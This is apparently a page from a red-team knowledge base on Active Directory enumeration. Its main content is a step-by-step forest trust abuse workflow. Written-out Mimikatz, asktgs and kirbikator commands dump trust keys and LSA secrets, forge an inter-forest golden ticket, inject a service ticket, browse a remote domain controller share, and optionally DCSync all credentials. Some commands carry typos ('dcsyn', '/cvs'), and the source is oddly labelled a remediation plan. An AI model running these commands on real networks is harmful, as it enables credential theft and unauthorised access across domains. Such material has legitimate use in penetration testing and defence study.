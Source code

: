 ## Related Objects
- [Domain Enumeration](./04_Domain_Enumeration.md)
- [Kerberos Enumeration](./23_Kerberos_Basic_Enumeration.md)
- [DNS Enumeration](./03_DNS_Enumeration.md)
- [LDAP Injection](./29_LDAP_Injection.md)

## Navigation
- [Master Index](../00_MASTER_INDEX.md)
- [Enumeration Index](./00_Enumeration_Index.md)

## See Also
- [Time-Based Enumeration](./21_Time_Based_Enumeration.md)
- [WMI Enumeration](./20_WMI_Enumeration.md)

---

**Tags**: #ForestEnumeration #ActiveDirectory #AD #Enumeration #Forest #Trusts #Schema #RedTeam

## 🚀 Forest Trust Abuse Workflow

### Overview
Abuse inter-forest trusts by forging inter-forest tickets using trust keys to access resources across forests.

### Step-by-Step (from Remediation_Plan.md)
```powershell
# 1) We require the trust key of inter-forest trust
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'

# 2) Forge the inter-forest TGT
Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:ad.domain.local /sid:<sid> /rc4:<rc4-hash> /service:krbtgt /target:domain2.local /ticket:C:\temp\trust_forest_tkt.kirbi"'

# 3) Request a TGS for target service in the other forest
.\asktgs.exe C:\temp\trust_forest_tkt.kirbi CIFS/dc.domain2.local

# 4) Inject and use the TGS
.\kirbikator.exe lsa .\CIFS.computer.targetDomain.local.kirbi
ls \\dc.domain2.local\shares\

# Optional: DCSync in target forest (requires privileges)
Invoke-Mimikatz -Command '"lsadump::dcsyn /domain:dc.domain2.local /all /cvs"'

# Enumerate ForeignSecurityPrincipal to identify cross-forest access SIDs
Get-DomainObject -Domain targetDomain.local | ? {$_.objectclass -match "foreignSecurityPrincipal"}

# Example: Find a specific ForeignSecurityPrincipal SID in current domain
Get-DomainObject |? {$_.objectsid -match "S-1-5-21-493355955-4215530352-779396340-1104"}
```
